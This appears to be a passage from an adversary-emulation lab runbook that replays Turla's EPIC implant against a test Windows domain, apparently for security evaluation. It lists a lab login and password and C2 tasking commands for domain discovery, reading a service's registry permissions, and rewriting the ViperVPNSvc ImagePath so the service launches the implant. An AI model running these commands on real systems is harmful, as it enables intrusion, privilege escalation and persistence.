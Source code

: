 :o: Wait 1 minute then close out of all tabs and sign out of the RDP session to `hobgoblin` as `Gunter`.

:arrow_right: Re-RDP to `hobgoblin (10.20.20.102)` as `Gunter`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Gunter  | Password1! |

* Open Microsoft Edge and browse to `https://brieftragerin.skt.local/owa`.

:arrow_right: **Set a timer for 2 minutes** then switch to your Kali control server terminal and
confirm that a new implant has registered and the automated discovery output has been returned in
the server log.

**NOTE:** The injector will wait **2 minutes**, before injecting EPIC's Guard DLL into explorer.exe and,
subsequently, EPIC's worker DLL into Microsoft Edge.

* Within your Kali control server terminal window, right click and select "Split Terminal Horizontally". Be careful not to terminate the control server.

* In your lower terminal tab, copy and paste the first set of discovery commands:
```bash
cd /opt/day1/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | net group "Domain Admins" /domain && net group "Domain Computers" /domain && net group "Domain Controllers" /domain && tasklist /svc'
```

* :heavy_exclamation_mark: Verify that the `ViperVPNSvc` service shows up in the tasklist output towards the end.

```bash
grep 'ViperVPNSvc' logs.txt -i
```

* This should return:
    * >```
      >viperVpn.exe                  <PID> ViperVPNSvc
      >```

* Wait for the command to return before tasking the next command to query the service and who can access it:
```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg query HKLM\SYSTEM\CurrentControlSet\Services\ViperVPNSvc && powershell "$(Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\ViperVPNSvc).Access"'
```

* Wait for the command to return before tasking EPIC to modify the misconfigured ViperVPNSvc service to use our implant to execute:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg add "HKLM\system\currentcontrolset\services\ViperVPNSvc" /t REG_EXPAND_SZ /v ImagePath /d "cmd.exe /c %TEMP%\mxs_installer.exe" /f'
```

* Wait for the command to return.
